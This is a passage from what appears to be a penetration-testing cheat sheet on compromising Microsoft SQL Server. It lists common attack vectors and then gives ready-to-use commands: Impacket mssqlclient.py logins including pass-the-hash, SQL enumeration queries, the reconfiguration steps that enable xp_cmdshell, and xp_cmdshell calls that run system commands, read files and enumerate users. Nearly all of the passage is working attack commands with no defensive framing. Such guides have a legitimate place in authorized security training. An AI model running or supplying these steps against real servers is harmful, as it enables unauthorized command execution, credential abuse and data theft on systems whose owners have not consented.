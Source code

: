 #### **Common SQL Server Attack Vectors**
1. **Default/Weak Credentials**: sa account, service accounts
2. **SQL Injection**: Application vulnerabilities leading to SQL access
3. **Credential Reuse**: Domain credentials with SQL privileges
4. **Service Account Compromise**: Kerberoasting SQL service accounts
5. **Linked Server Abuse**: Pivoting through SQL server links

### **SQL Server Enumeration and Exploitation**

#### **Using Impacket mssqlclient.py**
```bash
# Connect with Windows authentication
mssqlclient.py DOMAIN/USERNAME@SQL_SERVER_IP -windows-auth

# Connect with SQL authentication
mssqlclient.py sa@SQL_SERVER_IP

# Connect with hash (Pass-the-Hash)
mssqlclient.py DOMAIN/USERNAME@SQL_SERVER_IP -windows-auth -hashes LM:NTLM
```

#### **Basic SQL Server Enumeration**
```sql
-- Check current user and role
SELECT SYSTEM_USER;
SELECT USER_NAME();
SELECT IS_SRVROLEMEMBER('sysadmin');

-- Enumerate databases
SELECT name FROM sys.databases;

-- Check xp_cmdshell status
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

-- Enumerate linked servers
EXEC sp_linkedservers;
```

#### **Enabling xp_cmdshell**
```sql
-- Enable show advanced options
sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Enable xp_cmdshell
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

#### **Command Execution via xp_cmdshell**
```sql
-- Execute system commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'hostname';
EXEC xp_cmdshell 'dir C:\Users';

-- Read file contents
EXEC xp_cmdshell 'type C:\path\to\file.txt';

-- Network enumeration
EXEC xp_cmdshell 'ipconfig /all';
EXEC xp_cmdshell 'net user';
```
